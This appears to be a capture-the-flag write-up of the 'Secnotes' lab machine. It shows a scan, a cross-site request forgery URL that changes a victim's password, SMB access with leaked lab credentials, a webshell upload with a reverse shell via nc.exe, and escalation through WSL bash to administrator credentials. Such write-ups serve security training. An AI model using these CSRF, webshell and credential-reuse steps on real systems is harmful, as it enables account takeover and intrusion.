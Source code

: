 # Secnotes

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.180    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 09:49 EDT
Nmap scan report for 10.129.85.180
Host is up (0.010s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```

Interesting ports for a Windows machine.

### Request Forgery

Port 80 just shows a login page:

<figure><img src="../../../.gitbook/assets/image (31) (3).png" alt=""><figcaption></figcaption></figure>

We can create a user to login.

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

There's a user with an email, and this user might click on the links we send. I sent one like so:

<figure><img src="../../../.gitbook/assets/image (9) (6).png" alt=""><figcaption></figcaption></figure>

And we do indeed get a callback on a `nc` listening port.

```
$ nc -lvnp 80                          
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.85.180] 49797
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
Host: 10.10.14.13
Connection: Keep-Alive
```

So there's some request forgery going on here. I tried changing passwords, and viewed the request in Burp:

```http
POST /change_pass.php HTTP/1.1
Host: 10.129.85.180
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://10.129.85.180
Connection: close
Referer: http://10.129.85.180/change_pass.php
Cookie: PHPSESSID=8ufhg7s7ejqtmjcfike2ek21fl
Upgrade-Insecure-Requests: 1



password=test%40123&confirm_password=test%40123&submit=submit
```

I found that if we convert this to a GET requests, it still works. This means we can change the password of the user by redirecting him to the `change.php` site and entering the same parameters. Send this to the Contact Us page:

{% code overflow="wrap" %}
```
http://10.129.85.180/change_pass.php?password=easypass&confirm_password=easypass&submit=submit
```
{% endcode %}

After waiting for a bit, we can login as `tyler` using this password.

<figure><img src="../../../.gitbook/assets/image (50) (5).png" alt=""><figcaption></figcaption></figure>

There are some credentials located within the note **new site**.&#x20;

```
\\secnotes.htb\newsite
tyler / 92g!mA8BGjOirkL%OG*&
```

### SMB

Now that we have some credentials, we can check whether they are valid:

```
$ smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.129.85.182
[+] IP: 10.129.85.182:445       Name: 10.129.85.182                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        new-site                                                READ, WRITE
```

So we have read and write permissions on `new-site`. There's another IIS web server on port 8808, which I think is the new site being referred to. We can put a webshell on it and check if it works.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

Now we have RCE, and we can get a reverse shell through downloading and executing `nc.exe`.

&#x20;

<figure><img src="../../../.gitbook/assets/image (20) (9).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Bash Shell

Within the user's desktop, there is a `bash.lnk` file:

```
C:\Users\tyler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
08/02/2021  03:32 AM             1,210 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
05/04/2023  07:02 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
```

When we view its contents, we can't make out a lot but we can see that `bash.exe` is installed on the system:

{% code overflow="wrap" %}
```
C:\Users\tyler\Desktop>type bash.lnk
type bash.lnk
L�F w������V�   �v(���  ��9P�O� �:i�+00�/C:\V1�LIWindows@       ﾋL���LI.h���&WindowsZ1�L<System32B   ﾋL���L<.p�k�System32▒Z2��LP� bash.exeB  ﾋL<��LU.�Y����bash.exe▒K-JںݜC:\Windows\System32\bash.exe"..\..\..\Windows\System32\bash.exeC:\Windows\System32�%�
                                                                    �wN�▒�]N�D.��Q���`�Xsecnotesx�<sAA��㍧�o�:u��'�/�x�<sAA��㍧�o�:u��'�/�=  �Y1SPS�0��C�G����sf"=dSystem32 (C:\Windows)�1SPS��XF�L8C���&�m�q/S-1-5-21-1791094074-1363918840-4199337083-1002�1SPS0�%��G▒��`����%
        bash.exe@������
                       �)
                         Application@v(���      �i1SPS�jc(=�����O�▒�MC:\Windows\System32\bash.exe91SPS�mD��pH�H@.�=x�hH�(�bP
```
{% endcode %}

We can search for this using `where`.&#x20;

```
C:\Users\tyler\Desktop>where /R c:\ bash.exe
c:\Windows\System32\bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

The first one doesn't work, so I tried the second one.

<figure><img src="../../../.gitbook/assets/image (25) (7).png" alt=""><figcaption></figcaption></figure>

We would spawn in a `root` shell. We can spawn a PTY shell the normal way with `python3`.

```
exitroot@SECNOTES:~# ls -la
ls -la
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
```

Then, when viewing the bash history file, we can see credentials for the administrator:

```
root@SECNOTES:~# cat .bash_history
<TRUNCATED>
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

We can verify these credentials via `smbmap`.&#x20;

<figure><img src="../../../.gitbook/assets/image (37) (6).png" alt=""><figcaption></figcaption></figure>

We have complete control over the file system, and we can get a shell with `smbexec.py` because only SMB is open.

<figure><img src="../../../.gitbook/assets/image (14) (8).png" alt=""><figcaption></figcaption></figure>
